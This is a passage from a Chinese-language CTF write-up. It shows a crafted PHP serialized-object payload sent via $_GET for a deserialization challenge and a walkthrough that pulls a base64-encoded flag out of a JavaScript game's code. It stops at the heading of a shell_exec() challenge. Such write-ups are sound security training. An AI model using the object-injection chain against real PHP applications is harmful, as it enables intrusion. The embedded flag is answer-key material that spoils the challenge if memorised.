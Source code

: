 结果

```php
ser=O:3:"web":2:{s:2:"kw";O:2:"re":1:{s:4:"chu0";O:3:"pwn":2:{s:4:"dusk";N;s:4:"over";O:4:"Misc":2:{s:7:"nothing";N;s:4:"flag";N;}}}s:2:"dt";N;}
```

$_GET 传参

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1730729607854-ca30ef09-65de-435c-b116-d9de025f007c.png)

## 一起吃豆豆
### 考点：
**玩游戏题,一般可以读 js 代码获取灵感**

### 题解：
这是一个 js 写的游戏

进入之后就是玩游戏，应该游戏通关之后就会给答案了

这里找到游戏的 js 代码，虽然 F12 和 ctrl+shift+I 都没用，但是还可以手动点更多工具里面的 web 开发者工具

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1730730349012-ba6706bd-2997-4f1f-89c7-9e9e5b730044.png)

找到游戏结束的代码,丢给 AI 加注释

```javascript
// 使用context.fillText方法来绘制文本
// _LIFE是一个变量，这里通过条件判断来决定要绘制的文本内容
// 如果_LIFE为真（true）
context.fillText(
    // 使用atob函数对Base64编码的字符串进行解码
    // "QmFzZUNURntKNV9nYW0zXzFzX2Vhc3lfdDBfaDRjayEhfQ=="是一个Base64编码的字符串
    _LIFE? atob("QmFzZUNURntKNV9nYW0zXzFzX2Vhc3lfdDBfaDRjayEhfQ==") : 'GAME OVER',
    // this.x和this.y是文本绘制的坐标位置
    this.x,
    this.y
);
```

可以直接进行 base64 解码

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1730730417021-606b72f4-863b-4054-9aa0-6cf3ba1f0518.png)

也可以在控制台执行这个函数，得到 flag

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1730730459169-6d744a34-c58f-47ed-97e5-a7e0814f2d1e.png)

## 你听不到我的声音
### 考点：
**shell_exec()函数**
